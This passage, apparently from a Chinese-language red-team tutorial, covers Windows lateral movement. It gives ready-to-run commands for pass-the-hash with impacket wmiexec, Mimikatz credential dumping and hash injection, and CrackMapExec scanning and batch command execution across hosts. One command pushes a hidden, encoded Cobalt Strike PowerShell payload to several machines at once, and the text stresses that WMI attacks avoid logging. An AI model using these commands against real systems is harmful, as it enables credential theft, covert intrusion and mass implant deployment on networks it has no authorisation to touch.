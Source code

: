 https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py

```
python wmiexec.py -hashes 624aac413795cdc1a5c7b1e00f780017:852a844adfce18f66009b4f14e0a98de administrator@10.73.147.29
```

#### MiMiKatz-PTH

这个需要本地管理员权限(由Mimikatz的实现机制决定的)

```
privilege::debug
sekurlsa::logonpasswords
//抓取本机hash

privilege::debug
sekurlsa::pth /user:administrator /domain:workgroup /ntlm:852a844adfce18f66009b4f14e0a98de
//将获取的Hash添加进lsass中
```

会弹出一个交互式的终端,这个终端以及伪造为我们指定的hash和用户，访问远程主机或服务，就不用提供明文密码了。
我们可以通过copy文件，然后执行计划任务去拿到shell(这个思路有自动化实现的工具)。

####  pth批量横向移动
CrackMapExec：https://github.com/byt3bl33d3r/CrackMapExec/

CME集成了wmiexec、atexe、smbexec的方式,集成了smb扫描,口令爆破等功能,非常适合拿来快速移动。

用cme来进行网段的smb扫描确定目标系统和smb服务
```
cme smb 192.168.0.0/24 -t 255
```

批量传递hash:
```
cme smb 10.73.147.90 10.73.147.88 -u administrator -H 852a844adfce18f66009b4f14e0a98de
```

批量执行命令:
```
cme smb 10.73.147.90 10.73.147.88 -u administrator -H 852a844adfce18f66009b4f14e0a98de  -x "whoami"
```

或者执行powershell,我们可以通过CS的powershell command然后粘贴生成的payload.txt中的内容直接-x执行即可批量上马。
```
cme smb 10.211.55.51  10.211.55.52 -u administrator  -H 852a844adfce18f66009b4f14e0a98de -x "powershell -nop -w hidden -encodedcommand JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAE0..."
```

## WMI 横向
WMI的全名为“Windows Management Instrumentation”。从Windows 98开始，Windows操作系统都支持WMI。WMI是由一系列工具集组成的，可以通过/node选项使用端口135上的远程过程调用(RPC)进行通信以进行远程访问，它允许系统管理员远程执行自动化管理任务，例如远程启动服务或执行命令。

> “自从PsExec在内网中被严格监控后，越来越多的反病毒厂商将PsExec加入了黑名单，于是攻击者逐渐开始使用WMI进行横向移动。通过渗透测试发现，在使用wmiexec进行横向移动时，Windows操作系统默认不会将WMI的操作记录在日志中，同时攻击脚本无需写入到磁盘，具有极高的隐蔽性。因为在这个过程中不会产生日志，所以，对网络管理员来说增加了攻击溯源的成本。而对攻击者来说，其恶意行为被发现的可能性有所降低、隐蔽性有所提高。由此，越来越多的APT开始使用WMI进行攻击，利用WMI可以进行信息收集、探测、反病毒、虚拟机检测、命令执行、权限持久化等操作。”
